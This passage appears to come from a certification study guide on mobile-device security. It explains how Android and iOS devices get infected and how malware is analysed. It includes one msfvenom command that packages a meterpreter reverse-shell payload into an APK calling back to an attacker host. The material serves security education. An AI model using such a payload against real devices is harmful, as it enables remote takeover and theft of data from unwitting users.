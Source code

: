 In this section, we’ll explore how malware is installed on a mobile device. In addition, we’ll discover why analyzing malware can be an important skill in understanding how malware works. Let’s start with an overview of how we can fall victim to a malware attack.

#### Installing Malware
When dealing with malware, the approach you take will depend heavily on the mobile platform the devices are using.

The iOS platform is more restrictive and therefore has fewer opportunities for exploitation. By default, iOS devices can only install apps from the official App Store, which has some measure of quality control to keep malware out. However, jailbreaking an iPhone enables devices to install apps from third-party sources, which might contain malware.

The Android OS is much less restrictive than iOS by design, and a change of a single setting can make it possible for the device to install apps from third-party sources. The rooting process reduces the device's security even further. Once rooted, apps will be able to run outside of their sandbox environments, assume high-level privileges, and be able to interact with the kernel and other apps on the device. This can then enable a malicious actor to exfiltrate sensitive data, capture session information, and even leave a device non-functional.

The following example uses a tool called **`msfvenom`**, part of the Metasploit Framework, to create a malicious app package for Android devices:

`msfvenom -p android/meterpreter/reverse_tcp LHOST=<attacker IP address> LPORT=<available port> R > malware.apk`

This creates a reverse TCP listener back to the attacker's machine and saves it as an app package, or APK file.

> [!warning] APK files are the installation file format for Android.

Assuming the user enables installation of apps from unknown sources, they simply need to run the installer to infect their device. On the attack machine, a malicious actor will set up Metasploit to handle the incoming connection by opening a shell onto the device.

One of the best ways to protect a system is to understand the threats. Two common techniques used to dissect a threat are reverse engineering and sandbox analysis.

#### Analyzing Malware
When dissecting malware, ***reverse engineering*** will step through the code to see what happens when the code is run on a device. One significant effort is a forensic analysis on a specific type of malware, completed by scientists to see how the code works. This effort helps identify vulnerabilities which are then used to help prevent future attacks.

Sometimes the simplest way to learn what happens when a virus executes is to put it in a sandbox and let it run. ***Sandbox analysis*** is using virtualization to provide a safe environment to analyze malware. You can create a sandbox using a virtual machine, or use a pre-made sandbox designed to provide a full analysis of malware activity.

## Topic 11C - Outline Assessment Tools for Mobile Devices
---
> [!note] Exam Objectives Covered
> *3.5 Explain common attacks and vulnerabilities against specialized systems.*

Mobile devices are widely used, yet many have several flaws that can expose a device to an attack. Unlike a threat, which we have no control over, we can minimize vulnerabilities in most cases. The first step involves testing the device. Today, the security analyst has a number of tools available to test and troubleshoot devices. Some are proprietary; however, many are free.
